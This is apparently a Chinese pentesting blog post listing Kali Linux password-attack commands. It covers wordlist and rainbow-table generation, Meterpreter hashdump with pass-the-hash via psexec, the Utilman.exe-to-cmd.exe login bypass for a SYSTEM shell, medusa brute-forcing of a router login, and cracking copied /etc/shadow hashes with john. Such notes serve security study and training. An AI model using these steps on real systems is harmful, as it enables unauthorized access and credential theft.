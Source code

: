 ```yaml
---
title: Kali-Linux常用密码攻击方法
date: 2024-01-13 20:28:36
tags: 渗透测试
mathjax: true
---
```


# Kali-Linux常用密码攻击方法

## Stasprocessor

利用马尔可夫攻击方式分析已有的密码字典文件：

```bash
statsgen [options] passwords.txt
    #--version
    #-h,--help
    #-o password.marsks,--output=password.masks 保护掩码和统计信息到一个文件
    #--hiderare 隐藏比例<1%的统计项
    #--minlength=8 过滤最小长度为8的密码
    #--maxlength=8
    #--charset=loweralpha,numeric 指定过滤的密码字符
    #--simplemask=stringdigit,allspecial 过滤密掩码格式
```

例如分析rockyou.txt密码文件：

```bash
statsgen rockyou.txt
```

内容分别为：

1. 密码长度统计信息。

2. 密码字符集统计。

3. 密码复杂性统计。

4. 简单掩码统计。

5. 密码字符串掩码格式的高级统计。

掩码格式：

| 掩码格式 | 含义     |
| -------- | -------- |
| ?l       | a~z      |
| ?u       | A~Z      |
| ?d       | 0~9      |
| ?s       | 特殊字符 |

## Crunch

生成字典：

```bash
crunch <min> <max> [<charset string>][options]
    #<min> 生成密码的最小长度
    #<max>
    #<charset string> 指定的字符集
    #-o 指定生成的密码字典文件名
    #-b number[type] 指定写入文件最大字节数 可指定KB、MB或GB 必须与-o START一起使用
    #-t 设置使用特殊格式
    #-l 当-t指定@、%或^时 识别占位符的一些字符
```

该工具默认提供的字符集在/usr/share/crunch/charset.lst中。

例如：

```bash
crunch 8 10 hex-lower -o /root/crunch.txt
```

## rsmangler

基于用户收集的信息，利用常见密码构建规则来构建字典：

```bash
rsmangler -f wordlist.txt -o new_passwords.txt
```

例如当test文件内容如下时：

```
root
password
```

用该命令生成字典：

```bash
rsmangler -f test -o pass.txt
```

## rtgen

生成彩虹表，两种语法格式：

```bash
rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index chain_len chain_num part_index
rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index -bench
    #hash_algorithm 可指定的值有lm ntlm md5 sha1 sha256
    #charset 指定字符集
    #plaintext_len_min 指定生成的密码最小长度
    #plaintext_len_max
    #table_index 表单数量
    #chain_len 链长度
    #chain_num 链个数
    #part_index 块数量
```

默认提供的所有字符集在/usr/share/rainbowcrack/charset.txt中。

生成基于MD5的彩虹表，长度4~8：

```bash
rtgen md5 loweralpha 4 8 0 1000 1000 0
```

生成文件/usr/share/rainbowcrack/md5_loweralpha#4-8_0_1000x1000_0.rt，并使用rtsort进行排序：

```bash
rtsort md5_loweralpha#4-8_0_1000x1000_0.rt
```

## hashid

（hash-identifier比这个好用多了...

识别哈希密码值可能的加密方式：

```bash
hashid 哈希值
```

得到的结果中，排名越靠前，可能性越大。

## 直接使用哈希密码值

哈希爆不出来，就直接用哈希值绕过密码验证，使用MSF。

在Meterpreter会话中：

```
hashdump #获取哈希密码
backgroud
use exploit/windows/smb/psexec
show options
set RHOSTS 192.168.29.143
set SMBUser bob
set SMBPass 哈希值
exploit #成功打开一个Meterpreter会话
```

## Utilman

只试过Win7。

使用U盘进入Kali Linux的Live模式，打开Windows的磁盘，进入Windows/System32，将Utilman.exe替换为cmd.exe。重启Windows，在登录界面按Win+U，进入cmd，whoami显示为SYSTEM权限。

## Medusa

暴力密码破解，可FTP、HTTP、IMAP、MYSQL等，路由器管理界面基于HTTP协议，这里对路由器进行密码破解。

```bash
medusa -h [IP] -U [user file] -P [pass file] -M http -e ns
    #-h 指定目标主机地址
    #-u 指定尝试破解的用户名
    #-U 指定使用的用户名文件
    #-p 指定尝试破解的密码
    #-P 指定使用的密码文件
    #-M 指定要破解的模块类型
    #-e 尝试空密码
```

暴力破解路由器的登录用户名和密码：

```bash
medusa -h 192.168.1.1 -u admin -P password.txt -M http -e ns
```

## 破解Linux用户密码

```bash
cp /etc/password /etc/shadow /root/
unshadow passwd shadow > cracked
john --wordlist=/usr/share/john/password.lst cracked #破解密码
john --show cracked #查看破解后的密码和其他信息
```
